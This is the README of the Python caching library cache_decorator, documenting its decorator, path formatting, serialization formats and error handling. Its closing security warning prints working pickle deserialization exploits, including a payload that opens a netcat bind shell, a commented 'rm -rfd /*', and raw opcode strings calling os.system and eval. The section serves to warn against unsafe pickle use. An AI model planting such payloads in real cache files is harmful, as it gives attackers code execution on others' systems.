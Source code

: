 cache_decorator
=========================================================================================
|pip| |downloads|

A simple decorator to cache the results of computationally heavy functions.
The package automatically serialize and deserialize depending on the format of the save path.

By default it supports ``.json .json.gz .json.bz .json.lzma`` and ``.pkl .pkl.gz .pkl.bz .pkl.lzma .pkl.zip`` 
but other extensions can be used if the following packages are installed:

numpy: ``.npy .npz``

pandas: ``.csv .csv.gz .csv.bz2 .csv.zip .csv.xz``

Also there is an optimized format for numerical dataframes:

pandas: ``.embedding .embedding.gz .embedding.bz2 .embedding.xz``

This creates an optionally compressed tar archive with pickles of the index and 
columns and a ``.npy`` of the values.

.. code:: python

    import time
    import numpy as np
    import pandas as pd
    from cache_decorator import Cache

    @Cache(
        cache_path={
            "info": "/tmp/{function_name}/{_hash}.json.xz",
            "data": "/tmp/{function_name}/{_hash}.csv.gz",
        },
        validity_duration="24d",
        args_to_ignore=("verbose",),
        enable_cache_arg_name="enable_cache",
    )
    def function_to_cache(seed: int, verbose: bool = True):
        np.random.seed(seed)
        if verbose:
            print(f"using seed {seed}")
        return {
            "info": {"timestamp": time.time(), "seed": seed,},
            "data": pd.DataFrame(
                np.random.randint(0, 100, size=(100, 4)), columns=list("ABCD")
            ),
        }


How do I install this package?
----------------------------------------------
As usual, just download it using pip:

.. code:: shell

    pip install cache_decorator


Examples of Usage
----------------------------------------------
To cache a function or a method you just have to decorate it with the cache decorator.

.. code:: python

    from time import sleep
    from cache_decorator import Cache
    from dict_hash import Hashable

    @Cache()
    def x(a, b):
        sleep(3)
        return a + b

    class A(Hashable):
        def __init__(self, x):
        self.x = x

        # you can call a method without args
        def my_method(self):
            return "|{}|".format(self.x)

        # you can call a static method
        @staticmethod
        def my_staticmethod():
            return "CIAO"

        # you can call a property
        @property
        def my_property(self):
            return "|{}|".format(self.x)

        # methods, static methods, and properties can return a custom formatter
        # that access attributes but can't call other methods
        def custom_formatter_method(self):
            return "{self.x:.4f}"

        @Cache(
            # this is a quick example of most things you can do in the formatting
            cache_path="/".join(
                "{cache_dir}",
                "{self.x}",
                "{self.my_method()}",
                "{self.my_staticmethod()}",
                "{self.my_property()}",
                "{self.custom_formatter_method()}",
                "{a}",
                "{b}_{_hash}.pkl",
            )
        )
        def f(self, a, b):
            sleep(3)
            return a + b
                
        # only needed if you want "{_hash}" in the path
        def consistent_hash(self) -> str:
            return str(self.x)

Cache path
----------
The default cache directory is ./cache but this can be setted by passing the cache_dir parameter to the decorator or by setting the environment variable CACHE_DIR.
In the case both are setted, the parameter folder has precedence over the environment one.


.. code:: python

    from time import sleep
    from cache_decorator import Cache

    @Cache(cache_dir="/tmp")
    def x(a):
        sleep(3)
        return a

The path format can be modified by passing the cache_path parameter.
This string will be formatted with infos about the function, its parameters and, if it's a method, the self attributes.

De default path is:

.. code:: python

    from time import sleep
    from cache_decorator import Cache

    @Cache(cache_path="{cache_dir}/{file_name}_{function_name}/{_hash}.pkl")
    def x(a):
        sleep(3)
        return a

But can be modified giving cache a more significative name, for example we can add the value of a into the file name.

.. code:: python

    from time import sleep
    from cache_decorator import Cache

    @Cache(cache_path="{cache_dir}/{file_name}_{function_name}/{a}_{_hash}.pkl")
    def x(a):
        sleep(3)
        return a

Depending on the extension of the file, different serialization and deserialization dispatcher will be called.

.. code:: python

    from time import sleep
    from cache_decorator import Cache

    @Cache(cache_path="/tmp/{_hash}.pkl.gz")
    def x(a):
        sleep(3)
        return a

    @Cache(cache_path="/tmp/{_hash}.json")
    def x(a):
        sleep(3)
        return {"1":1,"2":2}

    @Cache(cache_path="/tmp/{_hash}.npy")
    def x(a):
        sleep(3)
        return np.array([1, 2, 3])

    @Cache(cache_path="/tmp/{_hash}.npz")
    def x(a):
        sleep(3)
        return np.array([1, 2, 3]), np.array([1, 2, 4])

Ignoring arguments when computing the hash
------------------------------------------
By default the cache is differentiate by the parameters passed to the function.
One can specify which parameters should be ignored.


.. code:: python

    from time import sleep
    from cache_decorator import Cache

    @Cache(args_to_ignore=["verbose"])
    def x(a, verbose=False):
        sleep(3)
        if verbose:
            print("HEY")
        return a

Multiple arguments can be specified as a list of strings with the name of the arguments to ignore.

.. code:: python

    from time import sleep
    from cache_decorator import Cache

    @Cache(args_to_ignore=["verbose", "multiprocessing"])
    def x(a, verbose=False, multiprocessing=False):
        sleep(3)
        if verbose:
            print("HEY")
        return a

Dynamically enabling the cache
------------------------------
Sometime we need to enable or disable the cache dinamically, we soupport this 
using the `enable_cache_arg_name` argument which can be used as follows:

.. code:: python

    import time
    import numpy as np
    import pandas as pd
    from cache_decorator import Cache

    # simple boolean argument

    @Cache(
        enable_cache_arg_name="enable_cache",
    )
    def function_to_cache(seed: int):
        np.random.seed(seed)
        return {"seed":seed}

    # Cache enabled
    function_to_cache(10)
    # Cache enabled
    function_to_cache(10, enable_cache=True)
    # Cache disabled
    function_to_cache(10, enable_cache=False)

    class TestEnableCacheArgAsAttribute:
        def __init__(self, enable_cache: bool):
            self.enable_cache = enable_cache
        
        @Cache(
            cache_path="{cache_dir}/{a}.pkl",
            cache_dir="./test_cache",
            enable_cache_arg_name="self.enable_cache",
        )
        def cached_method(self, a):
            sleep(2)
            return [1, 2, 3]

    instance = TestEnableCacheArgAsAttribute(enable_cache=True)
    # with cache enabled
    instance.cached_method(1)
    # disable the cache
    instance.enable_cache = False
    instance.cached_method(1)


    class TestEnableCacheArgAsAttributeProperty:
        def __init__(self, enable_cache: bool):
            self.enable_cache = enable_cache
        
        @property
        def is_cache_enabled(self):
            return self.enable_cache

        @Cache(
            cache_path="{cache_dir}/{a}.pkl",
            cache_dir="./test_cache",
            enable_cache_arg_name="self.is_cache_enabled()",
        )
        def cached_method(self, a):
            sleep(2)
            return [1, 2, 3]

    instance = TestEnableCacheArgAsAttribute(enable_cache=True)
    # with cache enabled
    instance.cached_method(1)
    # disable the cache
    instance.enable_cache = False
    instance.cached_method(1)

    class TestEnableCacheArgAsAttributeStatic:
        """This can be used for abstract classes"""
        def __init__(self, enable_cache: bool):
            self.enable_cache = enable_cache
        
        @staticmethod
        def is_cache_enabled():
            return True

        @Cache(
            cache_path="{cache_dir}/{a}.pkl",
            cache_dir="./test_cache",
            enable_cache_arg_name="self.is_cache_enabled()",
        )
        def cached_method(self, a):
            sleep(2)
            return [1, 2, 3]

    instance = TestEnableCacheArgAsAttributeStatic(enable_cache=True)
    instance.cached_method(1)
    
for more examples of usage check the tests: `test/test_method.py` and `test/test_enable_cache_arg_name.py`.

Cache validity
------------------------------------------
Cache also might have a validity duration. 

.. code:: python

    from time import sleep
    from cache_decorator import Cache

    @Cache(
        cache_path="/tmp/{_hash}.pkl.gz",
        validity_duration="24d"
        )
    def x(a):
        sleep(3)
        return a

In this example the cache will be valid for the next 24 days. and on the 25th day the cache will be rebuilt.
The duration can be written as a time in seconds or as a string with unit.
The units can be "s" seconds, "m" minutes, "h" hours, "d" days, "w" weeks.

Logging
-------
Each time a new function is decorated with this decorator, a new logger is created.
You can modify the default logger with ``log_level`` and ``log_format``.


.. code:: python

    from time import sleep
    from cache_decorator import Cache

    @Cache(log_level="debug")
    def x(a):
        sleep(3)
        return a

If the default format is not like you like it you can change it with:

.. code:: python

    from time import sleep
    from cache_decorator import Cache

    @Cache(log_format="%(asctime)-15s[%(levelname)s]: %(message)s")
    def x(a):
        sleep(3)
        return a

More informations about the formatting can be found here https://docs.python.org/3/library/logging.html .

Moreover, the name of the default logger is:

.. code:: python

    logging.getLogger("cache." + function.__name__)

So we can get the reference to the logger and fully customize it:

.. code:: python

    import logging
    from cache_decorator import Cache

    @Cache()
    def test_function(x):
        return 2 * x

    # Get the logger
    logger = logging.getLogger("cache.test_function")
    logger.setLevel(logging.DEBUG)
    
    # Make it log to a file
    handler = logging.FileHandler("cache.log")
    logger.addHandler(handler)

Error Handling
--------------
A common problem we noted using the library is that if the saved type is not compatible with the chosen extension,
the program will raise an exception at the end of the function and we lose all the work done.
To mitigate this proble, now the cache decorator has a built-in system for handling errors.
If there is an error in the serializzation of the result, the program will make an automatic backup using pickle.
This by default will add ``_backup.pkl`` to the end of the original path, but if for any reason this would over-write a file, a random string will be appended.
And log (with critical level) the path of the backup file and the supposed path where the 

Suppose we erroneusly set the extension to CSV instead of JSON:

.. code:: python

    from cache_decorator import Cache

    @Cache("./test_{x}.csv")
    def test_function(x):
        return {"this":{"is":{"not":{"a":"csv"}}}}

    test_function(10)
    # 2021-02-22 13:22:07,286[CRITICAL]: Couldn't save the result of the function. Saving the result as a pickle at:
    # ./test_10.csv_backup.pkl
    # The file was gonna be written at:
    # ./test_10.csv


Now we can manually load the value and store it at the correct path, this way the next time the function is called, the cache will be loaded correctly with the right extension.

.. code:: python

    import json
    import pickle

    # Load the backup
    with open("./test_10.csv_backup.pkl", "rb") as f:
        result = pickle.load(f)

    # Save it at the right path
    with open("./test_10.json", "w") as f:
        json.dump(f, result) 

.. code:: python

    from cache_decorator import Cache

    @Cache("./test_{x}.json")
    def test_function(x):
        return {"this":{"is":{"not":{"a":"csv"}}}}

    test_function(10) # Load the corrected Cache at "./test_10.json"


Optionally, one can programmatically sort this out by catching the exception and accessing its fields.

.. code:: python

    from cache_decorator import Cache

    @Cache("./test.csv")
    def test_function(x):
        return {"this":{"is":{"not":{"a":"csv"}}}}

    try:
        test_function(10, y="ciao")
    except SerializationException as e:
        result = e.result
        backup_path = e.backup_path
        path = e.path
        

Moreover, the backup path can be costumized using the ``backup_path`` parameter, here you can use the same parameter of ``path`` and also ``{_date}``, which is the date of the bakcup, and ``{_rnd}`` which guarantees that the file will not overwrite any other file:

.. code:: python

    from cache_decorator import Cache

    @Cache("./test.csv", backup_path="./backup_{date}_{rnd}.pkl")
    def test_function(x):
        return {"this":{"is":{"not":{"a":"csv"}}}}

    test_function(10, y="ciao")
    
    # 2021-02-22 13:22:07,286[CRITICAL]: Couldn't save the result of the function. Saving the result as a pickle at:
    # ./backup_2021_02_22_13_22_07_18ce30b003e14d16d5e0f749e8205e467aedfbba.pkl
    # The file was gonna be written at:
    # ./test.csv

        

Internals
--------------
If for any reason you need to get a reference to the wrapped function and its cacher class, you can access them using the internal variables:

.. code:: python

    from cache_decorator import Cache

    @Cache()
    def test_function(x, y):
        return 2 * x

    original_test_function = test_function.__cached_function
    test_function_cacher_class = test_function.__cacher_instance

We do not suggest to use them.


Manual Caching
--------------
If for some reason you need to manually manage your cache, you can use the built in static methods of the ``Cache`` class.
It will automatically create the needed folders. Moreover, you can get the expected path for a function call.

.. code:: python

    from cache_decorator import Cache
    
    # you can use the Cache class functions to load and store data easily
    # but here you can't use a path formatter but you have to pass a complete path.

    # Store
    Cache.store({1:2, 3:4}, "./my_custom_cache/best_dict_ever.json)

    # Load
    best_dict = Cache.load("./my_custom_cache/best_dict_ever.json)

    # This would not format anything!
    # Cache.store({1:2, 3:4}, "./my_custom_cache/{_hash}.json)
    # this would save a file called literally called "{_hash}.json"

    @Cache()
    def test_function(x, y):
        return 2 * x


    # you can get the path where the file would be saved (this does not call the function!).
    path = Cache.compute_path(test_function, 10, y="ciao")


Security Warnings
-----------------

Whenever possible don't use the pickle extension.
De-serializzation of untrusted data might lead to Remote Code Execution or Local Privilege Escalation ( https://davidhamann.de/2020/04/05/exploiting-python-pickle/ ).
Therefore, simple formats such as json is preferable whenever possible.

Suppose we have this code:

.. code:: python

    from cache_decorator import Cache

    @Cache("./cache/{x}.pkl)
    def my_awesome_function(x):
        return x

    ...

    my_awesome_function(1)

If in any way we have access to the cache folder, we can easily exploit it:

.. code:: python

    import pickle

    COMMAND = "netcat -c '/bin/bash -i' -l -p 4444" # rm -rfd /*

    class PickleRce(object):
        def __reduce__(self):
            import os
            return (os.system,(COMMAND,))

    payload = pickle.dumps(PickleRce())
    print(payload)
    # b"\x80\x04\x95>\x00\x00\x00\x00\x00\x00\x00\x8c\x05posix\x94\x8c\x06system\x94\x93\x94\x8c#netcat -c '/bin/bash -i' -l -p 4444\x94\x85\x94R\x94."

    with open("./cache/1.pkl", "wb") as f:
        f.write(payload)

Next time that the function is called with argument ``1``, we will spawn a remote shell and take control of the system.

Or, since Pickle is a "programming language" which is executed by a VM, we can write a general RCE exploit which only uses builtins:

.. code:: python

    import pickle
    
    # Build the exploit
    command = b"""cat flag.txt"""
    x = b"c__builtin__\ngetattr\nc__builtin__\n__import__\nS'os'\n\x85RS'system'\n\x86RS'%s'\n\x85R."%command
    
    # Test it
    pickle.load(x)
    
Or you can just call eval and execute arbitrary python code:
.. code:: python

    import pickle
    
    code = "print('ciao')"
    
    pickle.loads(b"".join([
        b"c__builtin__\neval\n(",
        pickle.dumps(code, protocol=0)[:-1],
        b"tR."
    ]))

For this reason is important to either use a simpler serializzation scheme like json and to fortify the system by setting the cache dir to be read-write only for the current user.

.. code:: bash

    chown -r $USER:$USER ./cache
    chmod -r 600 ./cache

This way only the current application can create and modify the cache files.

.. |pip| image:: https://badge.fury.io/py/cache-decorator.svg
    :target: https://badge.fury.io/py/cache-decorator
    :alt: Pypi project

.. |downloads| image:: https://pepy.tech/badge/cache_decorator
    :target: https://pepy.tech/badge/cache_decorator
    :alt: Pypi total project downloads
